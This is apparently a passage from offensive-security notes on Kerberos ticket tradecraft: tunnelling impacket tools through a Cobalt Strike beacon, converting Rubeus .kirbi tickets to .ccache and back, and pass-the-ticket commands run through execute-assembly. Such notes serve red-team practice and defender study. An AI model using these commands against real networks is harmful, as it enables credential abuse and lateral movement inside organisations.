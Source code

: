 Remote connections will resemble the following -> `getST.py -> 127.0.0.1:1081 -> WKSTN-1 (BEACON) -> WKSTN-2`

This effectively allows you to access internal hosts via beacon, however as mentioned above; requires beacon to be running in `interactive` mode or `sleep 0`.

### Base64 -> .kirbi -> .ccache

When you forge/request tickets with Rubeus, you generally get your tickets back in the `stdout` as `base64 ( kirbi )`. Alternatively, you can specify `/outfile` and the base64 wrapping wil be omitted.

If you want to transfer this over to Linux, you'll have to either base64 encode it and copy paste it over to Linux; or download the `.kirbi` file over the wire.

#### Windows -> Linux

```sh
echo "doI...[snip]..." | base64 -d  > ticket.kirbi && ticketConverter.py ticket.kirbi ticket.ccache && export KRB5CCNAME=ticket.ccache

nxc smb [...] --use-kcache
impacket*.py -k -no-pass

unset KRB5CCNAME
```

#### Linux -> Windows

Some tools will save the resulting ticket as a usable `.ccache` file, others will do so with `.kirbi`; please exercise intuition. I'd recommend using `describeTicket.py` to validate your `.ccache` before attempting to use it in Windows as you may get ungodly errors.

`base64` is ran with the `-w 0` flag to eliminate newlines when encoding the `.kirbi` file.

![44](https://i.gyazo.com/c689c21205779e1d9bcd27bb79afc41a.jpg)

```sh
impacket*.py [...] 
ticketConverter.py ticket.ccache ticket.kirbi

cat ticket.kirbi | base64 -w 0 

execute-assembly -i Rubeus.exe ptt /ticket:doI...[snip]...
execute-assembly -i Rubeus.exe ptt /ticket:ticket.kirbi

execute-assembly -i Rubeus.exe klist
```

`execute-assembly` is ran with the `-i` flag due to the character limit in beacon's `execute-assembly` fork and run. 

`-i` tasks beacon to run the assembly inline, be careful when using this flag as it may cause beacon to crash if the assembly errors out.

If you are unable to pass the base64 ticket to `Rubeus.exe ptt`, due to other constraints; you can simply drop `.kirbi` to disk and reference it with `Rubeus.exe ptt /ticket:[ticket.kirbi]`.
